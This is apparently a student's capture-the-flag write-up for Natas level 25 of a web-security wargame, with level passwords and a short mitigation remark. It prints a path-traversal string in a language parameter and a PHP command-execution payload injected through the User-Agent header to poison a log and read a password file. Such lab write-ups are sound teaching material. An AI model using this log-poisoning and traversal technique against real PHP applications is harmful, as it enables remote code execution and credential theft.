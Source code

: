 #### Credentials
natas25
O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx

#### How you passed the challenge
source code reveals how and where log file is populated.
also, the language file does check for natas_webpass, however it will log the attempt anyways.
when the log request is saved to file, it appears that HTTP_USER_AGENT is appended to the log. We can exploit with a PHP command.

so, passing changing the lang to :lang=....//logs/natas25_fos2f79fbh8gga6b4j9rkvvbek.log
and forcing user agent to: User-Agent: <?php exec("cat /etc/natas_webpass/natas26"); ?>



#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
Ensure data validation. There are libraries for PHP that will sanitize all fields.

## Natas 26

### Credentials
natas26
8A506rfIAXbKKk68yJeuTuRq4UfcK70k